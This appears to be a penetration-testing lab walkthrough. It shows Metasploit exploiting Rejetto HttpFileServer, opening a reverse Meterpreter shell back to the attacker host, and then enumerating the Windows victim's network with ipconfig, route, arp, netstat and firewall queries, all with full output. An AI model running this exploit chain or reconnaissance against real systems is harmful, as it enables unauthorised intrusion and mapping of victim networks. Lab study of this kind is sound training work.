

# Enumerating Network Information

<figure><figcaption></figcaption></figure>

```sh
msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use 0
msf5 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.5.24.213
rhosts => 10.5.24.213
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.26.2:4444 
[*] Using URL: http://0.0.0.0:8080/rf3NkYy336yN4uL
[*] Local IP: http://10.10.26.2:8080/rf3NkYy336yN4uL
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /rf3NkYy336yN4uL
[*] Sending stage (180291 bytes) to 10.5.24.213
[*] Meterpreter session 1 opened (10.10.26.2:4444 -> 10.5.24.213:49262) at 2024-01-17 12:07:46 +0530
[!] Tried to delete %TEMP%\SavMXOzbsH.vbs, unknown result
[*] Server stopped.

meterpreter > shell
Process 1572 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

```sh
C:\hfs>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : ap-south-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::f9d5:20e9:505c:d9cf%12
   IPv4 Address. . . . . . . . . . . : 10.5.24.213
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.5.16.1

Tunnel adapter isatap.ap-south-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ap-south-1.compute.internal

```

```sh
C:\hfs>ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WIN-OMCNBKR66MN
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : ap-south-1.ec2-utilities.amazonaws.com
                                       ap-southeast-1.ec2-utilities.amazonaws.com
                                       us-east-1.ec2-utilities.amazonaws.com
                                       ap-southeast-1.compute.internal
                                       ap-south-1.compute.internal

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : ap-south-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-38-B5-3E-30-F1
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::f9d5:20e9:505c:d9cf%12(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.5.24.213(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Lease Obtained. . . . . . . . . . : Wednesday, January 17, 2024 6:34:03 AM
   Lease Expires . . . . . . . . . . : Wednesday, January 17, 2024 7:34:02 AM
   Default Gateway . . . . . . . . . : 10.5.16.1
   DHCP Server . . . . . . . . . . . : 10.5.16.1
   DHCPv6 IAID . . . . . . . . . . . : 319697556
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-26-EB-A5-6A-06-4E-FA-4C-65-EA
   DNS Servers . . . . . . . . . . . : 10.5.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.ap-south-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ap-south-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

```

```sh
C:\hfs>route print
route print
===========================================================================
Interface List
 12...02 38 b5 3e 30 f1 ......AWS PV Network Device #0
  1...........................Software Loopback Interface 1
 15...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter #2
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0        10.5.16.1      10.5.24.213     10
        10.5.16.0    255.255.240.0         On-link       10.5.24.213    266
      10.5.24.213  255.255.255.255         On-link       10.5.24.213    266
      10.5.31.255  255.255.255.255         On-link       10.5.24.213    266
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  169.254.169.123  255.255.255.255        10.5.16.1      10.5.24.213     10
  169.254.169.249  255.255.255.255        10.5.16.1      10.5.24.213     10
  169.254.169.250  255.255.255.255        10.5.16.1      10.5.24.213     10
  169.254.169.251  255.255.255.255        10.5.16.1      10.5.24.213     10
  169.254.169.253  255.255.255.255        10.5.16.1      10.5.24.213     10
  169.254.169.254  255.255.255.255        10.5.16.1      10.5.24.213     10
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link       10.5.24.213    266
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  255.255.255.255  255.255.255.255         On-link       10.5.24.213    266
===========================================================================
Persistent Routes:
  None

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    306 ::1/128                  On-link
 12    266 fe80::/64                On-link
 12    266 fe80::f9d5:20e9:505c:d9cf/128
                                    On-link
  1    306 ff00::/8                 On-link
 12    266 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None

```

```sh
C:\hfs>arp -a
arp -a

Interface: 10.5.24.213 --- 0xc
  Internet Address      Physical Address      Type
  10.5.16.1             02-b5-f8-b3-8d-26     dynamic   
  10.5.16.44            02-73-ce-2a-1b-90     dynamic   
  10.5.21.148           02-5e-4d-80-7a-6c     dynamic   
  10.5.28.45            02-df-10-bd-81-f6     dynamic   
  10.5.31.255           ff-ff-ff-ff-ff-ff     static    
  169.254.169.254       02-b5-f8-b3-8d-26     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
```

```sh
C:\hfs>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       2340
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       752
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1948
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       568
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       860
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       896
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       1032
  TCP    0.0.0.0:49165          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49176          0.0.0.0:0              LISTENING       668
  TCP    10.5.24.213:139        0.0.0.0:0              LISTENING       4
  TCP    10.5.24.213:49262      10.10.26.2:4444        ESTABLISHED     1916
  TCP    10.5.24.213:49359      169.254.169.254:80     CLOSE_WAIT      1256
  TCP    10.5.24.213:49369      10.5.28.45:443         TIME_WAIT       0
  TCP    10.5.24.213:49373      10.5.16.44:443         ESTABLISHED     1068
  TCP    127.0.0.1:80           127.0.0.1:49374        ESTABLISHED     2340
  TCP    127.0.0.1:49374        127.0.0.1:80           ESTABLISHED     3052
  TCP    [::]:135               [::]:0                 LISTENING       752
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3389              [::]:0                 LISTENING       1948
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       568
  TCP    [::]:49153             [::]:0                 LISTENING       860
  TCP    [::]:49154             [::]:0                 LISTENING       896
  TCP    [::]:49155             [::]:0                 LISTENING       1032
  TCP    [::]:49165             [::]:0                 LISTENING       660
  TCP    [::]:49176             [::]:0                 LISTENING       668
  UDP    0.0.0.0:123            *:*                                    932
  UDP    0.0.0.0:500            *:*                                    896
  UDP    0.0.0.0:3389           *:*                                    1948
  UDP    0.0.0.0:4500           *:*                                    896
  UDP    0.0.0.0:5355           *:*                                    1012
  UDP    10.5.24.213:137        *:*                                    4
  UDP    10.5.24.213:138        *:*                                    4
  UDP    [::]:123               *:*                                    932
  UDP    [::]:500               *:*                                    896
  UDP    [::]:3389              *:*                                    1948
  UDP    [::]:4500              *:*                                    896
  UDP    [::]:5355              *:*                                    1012

```

```sh
C:\hfs>netsh firewall show state
netsh firewall show state

IMPORTANT: "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .

The RPC server is unavailable.

C:\hfs>netsh advfirewall show allprofiles
netsh advfirewall show allprofiles

An error occurred while attempting to contact the  Windows Firewall service. Make sure that the service is running and try your request again.
```

